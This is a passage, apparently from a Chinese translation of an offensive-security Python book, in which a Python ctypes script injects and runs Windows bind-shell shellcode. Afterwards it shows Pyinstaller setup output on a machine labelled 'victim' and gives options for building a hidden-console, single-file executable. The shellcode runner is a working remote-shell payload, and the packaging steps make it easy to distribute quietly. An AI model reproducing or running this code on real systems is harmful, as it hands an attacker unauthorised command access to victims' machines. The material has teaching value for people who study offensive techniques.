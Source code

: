 接下来，我们写一个脚本执行这个 C 风格 shellcode。Python 允许导入外来函数的库。我们可以导入`ctypes` 库，它允许我们和 C 语言的数据类型交互。定义一个变量存储我们的 shellcode 之后，我们简单的把它作为一个函数并执行他，作为未来的参考，我们保存这个文件为`bindshell.py`。

```py
from ctypes import *
shellcode =
    ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
    "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
    "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
    "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
    "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
    "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
    "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
    "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
    "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
    "\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
    "\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7"
    "\x31\xdb\x53\x68\x02\x00\x05\x39\x89\xe6\x6a\x10\x56\x57\x68"
    "\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5"
    "\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7\x68\x75"
    "\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
    "\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    "\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e"
    "\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56"
    "\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56"
    "\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
    "\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5");
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell() 
```

而此时的脚本将会在装有 Python 解释器的 Windows 上执行，让我们通过 Pyinstaller 编译软件提高它。(可以从 [`www.pyinstaller.org/`](http://www.pyinstaller.org/) 获得)。Pyinstaller 将 Python 脚本编译为独立的可执行程序，可以分发给没有安装 Python 解释器的系统使用。在编译脚本之前，运行`Configure.py` 脚本绑定 Pyinstaller 很重要。

```py
Microsoft Windows [Version 6.0.6000]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.
C:\Users\victim>cd pyinstaller-1.5.1
C:\Users\victim\pyinstaller-1.5.1>python.exe Configure.py
I: read old config from config.dat
I: computing EXE_dependencies
I: Finding TCL/TK...
<..SNIPPED..>
I: testing for UPX...
I: ...UPX unavailable
I: computing PYZ dependencies...
I: done generating config.dat 
```

接下来，我们将指导 Pyinstaller 建立一个说明文件为 Windows 的可执行文件做准备，我们将指示 Pyinstaller 不显示一个控制台用 `--noconsole` 选项，最终构建一个最终的可执行程序到一个单独的文件用`--onefile` 选项。
